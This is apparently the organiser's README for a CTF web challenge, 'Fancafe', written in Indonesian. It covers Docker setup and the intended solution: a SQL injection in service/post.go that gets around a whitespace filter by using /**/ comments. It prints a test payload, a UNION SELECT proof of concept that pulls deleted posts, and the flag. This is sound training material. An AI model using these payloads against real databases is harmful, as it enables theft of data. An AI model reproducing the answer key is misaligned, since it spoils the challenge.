 # Fancafe [Medium]

## File yang diberikan ke peserta
Jalankan `./zip.sh`, lalu upload file `fancafe.zip`.

## Build
1. Copy file [`env.sample`](env.sample) menjadi `.env`.
2. Pada file `.env`:
    - Edit `PORT` menjadi port yang yang ingin di-forward ke host.
    - Edit `DATABASE_PASS` menjadi random string (jalankan `head /dev/urandom | sha256sum`).
3. Jalankan `docker-compose build`
4. Jalankan `docker-compose up` atau sebagai daemon `docker-compose up -d`.

## Vulnerability
Terdapat SQL injection vulnerability pada file [service/post.go](service/post.go). Akan tetapi, `keyword` hanya diperbolehkan sampai whitespace pertama sehingga payload tidak diperbolehkan adanya whitespace. Kita dapat mengakalinya dengan mengganti whitespace pada payload menjadi `/**/`.

Untuk mengecek berhasilnya SQL injection, dapat digunakan payload berikut.
```
%'/**/union/**/select/**/0,0,'a','a'#
```

## Proof Of Concept
Masukkan payload berikut.
```
%'/**/union/**/select/**/0,0,'a',(select/**/content/**/from/**/posts/**/where/**/is_deleted=1)#
```

## Flag
`flag{SQLi_adalah_jalan_ninjaku`
